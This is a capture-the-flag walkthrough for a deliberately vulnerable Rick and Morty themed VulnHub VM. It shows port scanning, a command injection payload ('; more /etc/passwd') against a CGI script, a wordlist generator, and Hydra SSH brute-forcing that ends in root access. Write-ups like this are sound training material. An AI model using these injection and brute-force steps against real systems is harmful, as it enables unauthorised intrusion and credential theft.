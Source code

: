 ## RICKdiculouslyEasy 1 VulnHub VM walkthrough

RICKdiculouslyEasy 1 by https://twitter.com/sayli_ambure

Link: https://www.vulnhub.com/entry/rickdiculouslyeasy-1,207/

```
This is a fedora server vm, created with virtualbox.
It is a very simple Rick and Morty themed boot to root.
There are 130 points worth of flags available (each flag has its points recorded with it), you should also get root.
It's designed to be a beginner ctf, if you're new to pen testing, check it out!
```

## Solution

#### 1. Sudo Netdiscover
![](Assets/1.PNG)
> IP address: 192.168.1.10

#### 2. Port scan: Nmap -sC -sV -Pn -A -p- 192.168.1.10
![](Assets/2.PNG)
![](Assets/2.1.PNG)
> 21 -> ftp -> vsftpd 3.0.3 -> anonymous

> 22 -> ssh

> 80 -> Apache httpd 2.4.27

> 9090 -> Cockpit webservice
  
> 13337 -> unknown
  
> flag (10 pt) => total 10 points
  
> 22222 -> ssh -> OpenSSH 7.5 (protocol 2.0)
  
> 60000 > unknown

#### 3. Nikto: Nikto -h 192.168.1.10
![](Assets/3.PNG)
> passwords/ directory
> icons/ directory

#### 4. Browser > http://192.168.1.10/passwords/
![](Assets/4.PNG)
> FLAG.txt
> passwords.html

#### 5. Browser > http://192.168.1.10/passwords/FLAG.txt
![](Assets/5.PNG)
> Got Flag (10 pt) = total points 20

#### 6. Browser > http://192.168.1.10/passwords.html and page source code
![](Assets/6.PNG)
![](Assets/7.PNG)
> password > winter

#### 7. Browser > http://192.168.1.10/icons/
![](Assets/8.PNG)
> nothing special other than directory listing

#### 8. Browser > http://192.168.1.10/robots.txt
![](Assets/9.PNG)
> /cgi-bin/root_shell.cgi
> /cgi-bin/tracertool.cgi

#### 9. Browser > view-source:http://192.168.1.10/cgi-bin/root_shell.cgi
![](Assets/10.PNG)
> nothing useful

#### 10. Browser > http://192.168.1.10/cgi-bin/tracertool.cgi
![](Assets/11.PNG)
![](Assets/12.PNG)
> Vulnerable to command injection
![](Assets/13.PNG)
> cat command doesn't work. Can use 'more', 'less','head' or 'tail' instead

#### 11. Payload > ; more /etc/passwd
![](Assets/14.PNG)
> Note users 'morty', 'ricksanchez' and 'summer'

#### 12. Ftp 192.168.1.10 > anonymous:anonymous 
![](Assets/15.PNG)
> logged in
![](Assets/16.PNG)
> ftp://192.168.1.10 > Flag.txt (10 pt) => total 30 points

#### 13. ssh 192.168.1.10 22
![](Assets/17.PNG)
> Not accessible

#### 14. Browser > http://192.168.1.10:9090
![](Assets/18.PNG)
> Got flag (10 pt) => total 40 points

#### 15. Try winter password for users found in step 11 via SSH on 22222 port
![](Assets/19.PNG)
> Didn't work
![](Assets/20.PNG)
> Worked for user 'Summer'
> Got flag (10 pt) => total 50 points
![](Assets/21.PNG)
> password for unzipping journal.txt.zip is in safe_password.jpg
![](Assets/22.PNG)
> Pull jpg file in host machine
![](Assets/23.PNG)
> Got safe password
![](Assets/24.PNG)
> Got Flag (20 pt) => total 70 points
![](Assets/25.PNG)
![](Assets/26.PNG)
> Used flag in journal.txt as argument for safe
> Got next flag (20 pt) => total 90 points
> Got Pattern for RickSanchez password

#### 16. Create python script for all possible password combinations using the clue to feed Hydra:
```
def main():
    LETTERS = 'ABCDEFGHIJKLMNOPQRSTUVWXYZ'
    DIGITS = '0123456789'
    BAND_WORDS = ['The', 'Flesh', 'Curtains']
    with open('rickpwd.txt', 'w') as f:
        for letter in LETTERS:
            for digit in DIGITS:
                for word in BAND_WORDS:
                    f.write('{}{}{}\n'.format(letter, digit, word))
        f.flush()
if __name__ == '__main__':
    main()
```
> rickpwd.txt created

#### 17. Hydra -l RickSanchez -P rickpwd.txt 192.168.1.10 ssh -s 22222
![](Assets/27.PNG)
> Password for RickSanchez user > P7Curtains

#### 18. ssh RickSanchez@192.168.1.10 -p 22222
![](Assets/28.PNG)
![](Assets/29.PNG)
> Got root and Flag (30 pt) => total 120 points

#### 19. Analyzing remaining ports: telnet 192.168.1.10 13337
![](Assets/30.PNG)
> Flag already found

#### 20. nc 192.168.1.10 60000
![](Assets/31.PNG)
> Got Flag (10 pt) => total 130 points

> Got all 130/130 points and owned root.
